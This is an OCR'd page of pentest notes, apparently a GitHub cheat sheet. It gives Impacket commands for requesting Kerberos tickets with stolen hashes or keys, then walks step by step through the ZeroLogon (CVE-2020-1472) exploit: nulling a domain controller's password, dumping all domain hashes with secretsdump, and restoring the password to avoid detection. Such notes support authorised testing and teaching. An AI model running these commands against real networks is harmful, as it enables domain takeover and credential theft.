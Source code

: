 ### Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
### Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
### Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]

 If not provided, password is asked
 
 
 
## ZeroLogon exploit (CVE-2020-1472)  Critical exploit - may damage the target system

This vulneribility targets domain controller and set its password to a null string. This is a critical exploit so client permission is neccassary .

1. First we have to check if our target domain is vulnerbale to this or not. We will use a python script to confirm 

use following script

- https://github.com/SecuraBV/CVE-2020-1472

> python3 zerologon_tester.py DC-NAME DC-IP
 
2. If its vulnerable and we want to exploit it ,use follwoing poc script


- https://github.com/dirkjanm/CVE-2020-1472


> python3 cve-2020-1472-exploit.py DC-NAME DC-IP

3. Now we can dump the hashes using secretsdump or crackmapexec

> python3 secretsdump.py -just-dc DOMAIN/DC-NAME\\$@DC-IP
 
 \$ is for specifying that password is null
 
This will dump all the hashes from Domain controller and we can pass the hash,perform golden ticket attacks etc

4. Now we have the hashes,we need to restore the DC password in order to avoid detection and causing unintended damage to the system

we will again use secretsdump but with a domain admin account and passing the hash to find a password hex key which will allow us to restore the system as before the exploitation


> python3 secretsdump.py domainadmin@DC-IP -hashes USERHASH

this will again dump hashes but will also dump hex keys from registry(after exploitation original dc password doesnt change to null in registry saves hence allowing us to restore) allowing us to restore dc password

5. Lastly we will use the restore password script to restore the system as it was
